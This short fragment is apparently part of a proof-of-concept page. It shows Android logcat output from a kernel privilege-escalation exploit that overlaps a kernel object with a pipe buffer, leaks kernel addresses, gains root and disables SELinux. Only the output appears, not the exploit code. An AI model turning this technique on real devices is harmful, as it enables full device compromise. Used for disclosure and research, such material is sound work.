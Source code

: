 ```shell
11-28 16:04:18.446  7989  7989 E EXPLOIT : [+] Allocating 61 pipes with 256 slots
11-28 16:04:18.462  7989  7989 E EXPLOIT : [+] Successfully overlapped the kcpuqueue object with a pipe buffer
11-28 16:04:18.463  7989  7989 E EXPLOIT : 40 AB BA 26 FE FF FF FF  00 00 00 00 30 00 00 00  | @..&........0...
11-28 16:04:18.463  7989  7989 E EXPLOIT : 70 37 8D F1 DA FF FF FF  10 00 00 00 00 00 00 00  | p7..............
11-28 16:04:18.463  7989  7989 E EXPLOIT : 00 00 00 00 00 00 00 00                           | ........
11-28 16:04:18.463  7989  7989 E EXPLOIT : [+] pipe_buffer {.page = 0xfffffffe26baab40, .offset = 0x0, .len = 0x30, ops = 0xffffffdaf18d3770}
11-28 16:04:18.463  7989  7989 E EXPLOIT : [+] kernel base = 0xffffffdaf0010000, kthreadd_task = 0xffffff8002da3780 selinux_state = 0xffffffdaf28a3168
11-28 16:04:20.097  7989  7989 E EXPLOIT : [+] Found our own task struct 0xffffff88416c5c80
11-28 16:04:20.097  7989  7989 E EXPLOIT : [+] Successfully got root: getuid() = 0 getgid() = 0
11-28 16:04:20.097  7989  7989 E EXPLOIT : [+] Successfully disabled SELinux
11-28 16:04:20.102  7989  7989 E EXPLOIT : [+] Cleanup  ... OK
```

	